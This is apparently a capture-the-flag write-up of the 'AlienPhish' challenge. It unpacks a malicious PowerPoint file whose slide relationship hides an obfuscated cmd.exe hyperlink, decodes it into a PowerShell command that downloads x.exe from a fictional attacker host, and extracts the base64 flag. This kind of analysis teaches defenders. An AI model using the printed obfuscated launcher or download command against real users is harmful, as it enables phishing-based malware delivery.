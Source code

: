 # AlienPhish 🎣
_We were given a Microsoft Powerpoint Presentation [file](/Alien%20Weaknesses.pptx) with **.pptx** extension._

Basically, Microsoft fies with __.*x__ extension like **.docx**, **.pptx**, **.xlsx**, etc are compressed files, that means they can be opened with any zip archive software. 

A malicious code (generally in VBA) can be hidden inside these files.

![zip](images/zip.gif)

## **Solution**
My first step was to open this ppt file using a zip archive. You can also use `binwalk` to extract the data if you are using any Linux based OS, but I will stick to `WinRar`.


![zip](images/S0.jpg)


As I see a lot of XML files, looking at rels files makes sense as to see the relationships.


*Opening slide1.xml.rels file gives us:*

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

NOTE: I have only included the relevant XML code from it.
You can find the full file [here](resources/slide1.xml.rels).

_We can clearly see that it is trying to execute CMD commands. The command is url encoded, the decoded command is :_

```cmd
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%""
```

*We can see `for /L%X in (122;-1;0)` reverses the string. We can use python to do the same.*

```python
 x = "o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$"
 print(x[::-1])
```

It gives `"$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"`

Everything here makes sense except *some_random_string.exe*.

Decoding it using online [base64 decoder](www.base64decode.org/) gives us the flag.

>**Flag :** _CHTB{pH1sHiNg_w0_m4cr0s???}_
